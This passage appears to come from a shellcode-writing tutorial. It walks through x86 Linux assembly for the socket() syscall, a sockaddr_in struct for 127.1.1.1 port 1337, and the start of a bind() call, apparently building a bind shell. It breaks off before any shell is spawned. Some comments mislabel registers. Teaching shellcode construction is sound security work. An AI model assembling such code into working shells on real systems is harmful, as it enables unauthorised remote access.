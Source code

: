 ```console
  #define PF_INET         2      
```  
  - We see that `AF_INET` is mapped to `PF_INET`
+ `ECX[1] - int type = SOCK_STREAM = 0x1`
+ `ECX[2] = int protocol = 0`

#### Assembly code for the socket() function
```nasm
xor eax, eax  ; Clear EAX Register. EAX = 0x00000000
mov al, 0x66  ; EBX = 0x66 = 102. SYSCAL 102 = socketcall
xor ebx, ebx  ; Clear EBX Register. 
inc ebx	      ; EBX = 0x1 = socket() // Create a socket
xor ecx, ecx  ; Clear ECX Register. 
push ecx      ; ECX[2] = int protocol = 0. Pushes 0x0 onto the stack
push ebx      ; ECX[1] - int type = SOCK_STREAM = 0x1. Pushes 0x1 onto the stack
push byte 0x2 ; ECX[0] - int domain = AF_INET = PF_INET = 0x2. Pushes 0x2 onto the stack
mov ecx, esp  ; Point the ECX Register to the Top of the stack
int 0x80      ; Execute the socket() System Call

xchg esi, eax ; save the "sockfd" generated from the socket above 
```

### 2. Create the Socket Address Struct
#### C Function
```c
struct sockaddr_in {
  sa_family_t    sin_family; /* address family: AF_INET */
  in_port_t      sin_port;   /* port in network byte order */
  struct in_addr sin_addr;   /* internet address */
};
```
#### Our C Function
```c
{ .sin_family = AF_INET, .sin_port = htons(1337), .sin_addr.s_addr = 127.1.1.1 }
           ARG[0]               ARG[1]                       ARG[2]
```
+ `ARG[0] = 0x2`
  - Value for `AF_INET`
+ `ARG[1] = 0x3905`
  - This is for the TCP Port 1337.
+ `ARG[2] = 0x0101017f`
  - `sin_addr.s_addr`: 127.1.1.1 (big endian)

### 3. Bind our Socket Address to the Socket
#### C Function
```c
int bind(int sockfd, const struct sockaddr *addr, socklen_t addrlen);
```
#### Our C Function
```c
<socketcall> bind(ipv4Socket, (struct sockaddr*) &ipSocketAddr, sizeof(ipSocketAddr));  
EAX=0x66     EBX    ECX[0]                   ECX[1]                  ECX[2]
```


[1]: 1